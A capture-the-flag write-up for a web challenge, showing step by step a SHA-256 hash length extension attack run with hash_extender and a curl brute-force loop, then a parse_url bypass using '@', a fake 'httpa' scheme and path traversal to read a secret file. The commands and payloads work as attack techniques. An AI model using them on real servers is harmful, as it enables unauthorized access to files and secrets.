


# Welcome Christmas

### Category

Web

### Description



### Solution

In the previous challenge, we were able to recover an ip address and a link to a web server "http://3.141.159.106", so I go to this page for the next challenge :


Here, there is nothing, so first reflex, I will see if the robots.txt file is present :

```
User-agent: Uchiha
Allow: /read.php
```

Here, it gives two clues:
- Our user-agent must be the value "Uchiha".
- We can then visit the read.php page

We arrive on a page which allows us to read a file, but the field for the file to read is already pre-filled with the value "184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5|read.php", here, there is no doubt, we are going to have to make a "hash length extension attack". So we are going to leak the source code of "read.php", to see the algorithm used and see how the script works to confirm or deny our theory.

```php
<?php
if ($_SERVER['HTTP_USER_AGENT']!=="Uchiha"){
	echo "Access Denied. Only Uchiha clan can access this";
}
else{
    //some html
}
?>
//some html
<?php
include "secret.php";
if(isset($_POST['string'])){
	$arr=explode("|",$_POST['string']) ;
	$filenames=$arr[1];
	$hash=$arr[0];
	if($hash===hash("sha256", $SECRET.$filenames ) && preg_match("/\//",$filenames)===0 ){
		foreach(explode(":",$filenames) as $filename){
			if(in_array($filename,["read.php","index.php","guinjutsu.php"])) {
				$jutsu=file_get_contents($filename);
				echo "Sharingan: ".$jutsu;
		    }
		}
	}
	else{
		echo "Verification Failed! You didn't awaken your sharingan!";
	}
}
?>
```

This confirms what I thought, we will have to make a "hash length extension attack" on the sha256 algorithm. For that I will use the "hash-extender" tool, which allows to make this attack.

Here, we can see that the basic value is "sha256|file1.php:file2.php:fileN.php", but we can't know the value of the secret, so this attack is very useful. You can find more informations on this vulnerability here : https://en.wikipedia.org/wiki/Length_extension_attack.

One thing remains unclear, it is the size of the secret, indeed, we do not know it. So we will bruteforce the size of the secret with the "hash-extender" tool :

```sh
./hash_extender --signature="184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5" --secret-min=1 --secret-max=50 --data="read.php" --append=":guinjutsu.php" -f sha256 --out-data-format=html --table | awk '{print $3}' > ../possible_hash
```
We generate here all the possibilities for the size of the secret contained in "secret.php".

Now we just have to bruteforce with curl, and see if we can get the source code of the file "guinjutsu.php".

```sh
for i in `cat test_hash`; do curl -H "User-Agent: Uchiha" -X POST http://3.141.159.106/read.php --data "string=fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117|$i"; done
```

After several requests, we observe the contents of the file "guinjutsu.php" which is returned to us, our attack thus succeeded!

```php
<?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
    $par=parse_url($url);
    if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
        return True;
    }
    else{
        return False;
    }
}

if (isset($_POST['submit'])){
    if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
        $url=$_POST['api'].$_POST['endpoint'];
        if (check($url)){
            $opts = array(
  'http'=>array(
    'method'=>"GET",
    'follow_location'=>false,
    'header'=>"Accept-language: en\r\n"
  )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file;
        }
    }
}
```

Here, we quickly see that it is this php file that will allow us to read the file at the root "secret.txt", with the file_get_contents.

Unfortunately, there is a check() function that checks the following things:
- The schema contains the string "http"
- The host must be "uchiha.fuinjutsukeeper.tech"
- The port must be "5000"

I know that url parsing is something very complicated, even if it looks simple, there are a lot of special characters that allow to change the host in the middle of the url, change the path, ...

For the first bypass we will use the "@" character, which allows to modify the host :

```php
var_dump(parse_url("http://google.com@uchiha.fuinjutsukeeper.tech:5000"));
```
```
array(4) {
  ["scheme"]=>
  string(4) "http"
  ["host"]=>
  string(27) "uchiha.fuinjutsukeeper.tech"
  ["port"]=>
  int(5000)
  ["user"]=>
  string(10) "google.com"
}
```

Here, we can fake our host and port to get the one expected by the check function.

One last thing is missing now, and that is the diagram. Indeed, we want to leak a local file, in other words to use the file:/// wrapper, but here, it is necessary that "http" is present in the schema, to pass the check. After reading some docs, I could learn that if PHP doesn't find a wrapper with the given name, it will call .... file:///.



So we have all our bypasses now, which gives us the final payload :
```
httpa://@uchiha.fuinjutsukeeper.tech:5000/../../../../../../../../../../secret.txt&endpoint=
```

We send it to the server and we recover the file "secret.txt" :

```
Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}
Someone calling himself madara said to Itachi to kill everyone, I'm not sure about this intel but if it's right no one can beat Itachi except Shisui. Check this forum they are using http://3.141.109.49
```

### Flag

Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}